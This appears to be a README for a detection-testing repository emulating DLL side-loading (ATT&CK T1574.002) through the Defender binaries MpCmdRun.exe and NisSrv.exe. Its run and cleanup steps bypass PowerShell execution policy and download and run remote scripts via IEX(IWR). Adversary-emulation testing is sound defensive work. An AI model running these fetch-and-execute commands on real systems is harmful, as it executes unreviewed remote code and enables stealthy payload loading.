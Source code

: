 # 1574.002 - Hijack Execution Flow: DLL Side-loading (DLL Proxy-loading)
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002/)
Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to DLL Search Order Hijacking, side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.

## Tests

- #1) DLL Side-loading using MpCmdRun.exe
- #2) DLL Side-loading using NisSrv.exe

## How To Run
Open PowerShell.exe Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

# Test 1
IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/T1574.002/DLL_Sideloading_MpCmdRun.ps1")

# Test 2
IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/T1574.002/DLL_Sideloading_NisSrv.ps1")
```

## How To Cleanup
Run the following command when you're finished testing and want to clean up:

```PowerShell
IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/T1574.002/DLL_Sideloading_Cleanup.ps1")
```

## Demo
![](https://github.com/SecurIT360/TTP-Detection-Testing/blob/main/T1574.002/Defender_DLL_Sideloading.gif)

